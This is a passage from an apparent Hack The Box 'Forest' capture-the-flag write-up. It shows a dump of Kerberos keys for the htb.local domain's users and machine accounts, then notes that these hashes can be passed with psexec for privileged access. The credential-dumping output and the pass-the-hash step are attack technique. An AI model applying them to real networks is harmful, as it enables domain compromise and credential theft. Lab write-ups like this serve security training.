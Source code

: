 ```shell
htb.local\HealthMailboxb01ac64:aes256-cts-hmac-sha1-96:af4bbcd26c2cdd1c6d0c9357361610b79cdcb1f334573ad63b1e3457ddb7d352
htb.local\HealthMailboxb01ac64:aes128-cts-hmac-sha1-96:8f9484722653f5f6f88b0703ec09074d
htb.local\HealthMailboxb01ac64:des-cbc-md5:97a13b7c7f40f701
htb.local\HealthMailbox7108a4e:aes256-cts-hmac-sha1-96:64aeffda174c5dba9a41d465460e2d90aeb9dd2fa511e96b747e9cf9742c75bd
htb.local\HealthMailbox7108a4e:aes128-cts-hmac-sha1-96:98a0734ba6ef3e6581907151b96e9f36
htb.local\HealthMailbox7108a4e:des-cbc-md5:a7ce0446ce31aefb
htb.local\HealthMailbox0659cc1:aes256-cts-hmac-sha1-96:a5a6e4e0ddbc02485d6c83a4fe4de4738409d6a8f9a5d763d69dcef633cbd40c
htb.local\HealthMailbox0659cc1:aes128-cts-hmac-sha1-96:8e6977e972dfc154f0ea50e2fd52bfa3
htb.local\HealthMailbox0659cc1:des-cbc-md5:e35b497a13628054
htb.local\sebastien:aes256-cts-hmac-sha1-96:fa87efc1dcc0204efb0870cf5af01ddbb00aefed27a1bf80464e77566b543161
htb.local\sebastien:aes128-cts-hmac-sha1-96:18574c6ae9e20c558821179a107c943a
htb.local\sebastien:des-cbc-md5:702a3445e0d65b58
htb.local\lucinda:aes256-cts-hmac-sha1-96:acd2f13c2bf8c8fca7bf036e59c1f1fefb6d087dbb97ff0428ab0972011067d5
htb.local\lucinda:aes128-cts-hmac-sha1-96:fc50c737058b2dcc4311b245ed0b2fad
htb.local\lucinda:des-cbc-md5:a13bb56bd043a2ce
htb.local\svc-alfresco:aes256-cts-hmac-sha1-96:46c50e6cc9376c2c1738d342ed813a7ffc4f42817e2e37d7b5bd426726782f32
htb.local\svc-alfresco:aes128-cts-hmac-sha1-96:e40b14320b9af95742f9799f45f2f2ea
htb.local\svc-alfresco:des-cbc-md5:014ac86d0b98294a
htb.local\andy:aes256-cts-hmac-sha1-96:ca2c2bb033cb703182af74e45a1c7780858bcbff1406a6be2de63b01aa3de94f
htb.local\andy:aes128-cts-hmac-sha1-96:606007308c9987fb10347729ebe18ff6
htb.local\andy:des-cbc-md5:a2ab5eef017fb9da
htb.local\mark:aes256-cts-hmac-sha1-96:9d306f169888c71fa26f692a756b4113bf2f0b6c666a99095aa86f7c607345f6
htb.local\mark:aes128-cts-hmac-sha1-96:a2883fccedb4cf688c4d6f608ddf0b81
htb.local\mark:des-cbc-md5:b5dff1f40b8f3be9
htb.local\santi:aes256-cts-hmac-sha1-96:8a0b0b2a61e9189cd97dd1d9042e80abe274814b5ff2f15878afe46234fb1427
htb.local\santi:aes128-cts-hmac-sha1-96:cbf9c843a3d9b718952898bdcce60c25
htb.local\santi:des-cbc-md5:4075ad528ab9e5fd
john:aes256-cts-hmac-sha1-96:361654f808bb7288e362af818416ea06d27f39e8990c0ec7c463bc74807c2feb
john:aes128-cts-hmac-sha1-96:8fef77f800a032c633ad2f8029ba425c
john:des-cbc-md5:dcc8293dae3e758c
gr4y:aes256-cts-hmac-sha1-96:0b92b8c0ff38c4d64a4c3f4e27d9553782fdd9a6759102a297574a811ea79454
gr4y:aes128-cts-hmac-sha1-96:7de7975208d49bbfb3a0de5c175f8bd7
gr4y:des-cbc-md5:7cb0e64fbc1c57c7
john2:aes256-cts-hmac-sha1-96:34490f1deea7029f963f3d0dd8fe180ee041e4b96616a9dc8d6c8bd3da862d9e
john2:aes128-cts-hmac-sha1-96:fb98fe089298d0404aac3f6d5eb5d822
john2:des-cbc-md5:23ea6d04a8c1c73d
luqman:aes256-cts-hmac-sha1-96:70dc90249125d4cf71e57487b2d48389995ead998e7291cdd2dff1f78f808260
luqman:aes128-cts-hmac-sha1-96:cb9065e340e29f373837d2e59ed60049
luqman:des-cbc-md5:f22a8adcad80f192
kate:aes256-cts-hmac-sha1-96:1fd45aaf28bfc75d18061fa0a638279b32501ff6398321615dd6ccd09ee17104
kate:aes128-cts-hmac-sha1-96:ac3759ce101659c4fe2655fc5436a03f
kate:des-cbc-md5:40c1ecdcd5941370
FOREST$:aes256-cts-hmac-sha1-96:b3004114d3735c1b65e8050c127d218af1ebf3d2da80a1d0dc863758ad6ec86c
FOREST$:aes128-cts-hmac-sha1-96:59a2773f2ef95766dbe2a1ebea738849
FOREST$:des-cbc-md5:2ffefe73089b6283
EXCH01$:aes256-cts-hmac-sha1-96:1a87f882a1ab851ce15a5e1f48005de99995f2da482837d49f16806099dd85b6
EXCH01$:aes128-cts-hmac-sha1-96:9ceffb340a70b055304c3cd0583edf4e
EXCH01$:des-cbc-md5:8c45f44c16975129
[*] Cleaning up... 
```
- now we will see that we have obtained the hashes of all the users in the Domain
- so we can pass this hash using psexec and we have privileged access!!!
```
```